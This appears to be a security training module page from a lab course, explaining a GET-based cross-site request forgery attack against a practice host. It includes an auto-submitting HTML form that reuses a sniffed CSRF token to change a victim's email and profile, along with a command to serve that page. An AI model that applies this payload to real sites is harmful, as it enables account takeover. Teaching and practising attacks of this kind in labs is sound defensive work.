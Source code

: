 # Cross-Site Request Forgery (GET-based)

Similar to how we can extract session cookies from applications that do not utilize SSL encryption, we can do the same regarding CSRF tokens included in unencrypted requests.

Let us see an example.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon, then use the provided Pwnbox or a local VM with the supplied VPN key to be able to reach the target application and follow along. Then, configure the specified vhost (`csrf.htb.net`) to access the application.

Navigate to `http://csrf.htb.net` and log in to the application using the credentials below:

* Email: heavycat106
* Password: rocknrol

This is an account that we created to look at the application's functionality.

Now, browse Julie Rogers' profile and click _Save_. You should see the below.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Activate burp suite's proxy (_Intercept On_) and configure your browser to go through it. Now click _Save_ again.

You should see the below.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The CSRF token is included in the GET request.

Let us simulate an attacker on the local network that sniffed the abovementioned request and wants to deface Julie Rogers' profile through a CSRF attack. Of course, they could have just performed a session hijacking attack using the sniffed session cookie.

First, create and serve the below HTML page. Save it as `notmalicious_get.html`

```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

Notice that the CSRF token's value above is the same as the CSRF token's value in the captured/"sniffed" request.

If you are wondering how we came up with the above form based on the intercepted GET request, please study the following resource [Sending form data](https://developer.mozilla.org/en-US/docs/Learn/Forms/Sending_and_retrieving_form_data)

You can serve the page above from your attacking machine as follows.

```shell-session
$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

While still logged in as Julie Rogers, open a new tab and visit the page you are serving from your attacking machine `http://<VPN/TUN Adapter IP>:1337/notmalicious_get.html`. You will notice that Julie Rogers' profile details will change to the ones we specified in the HTML page you are serving.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In the next section, we will attack an application submitting the CSRF token via POST without having to reside in the local network.
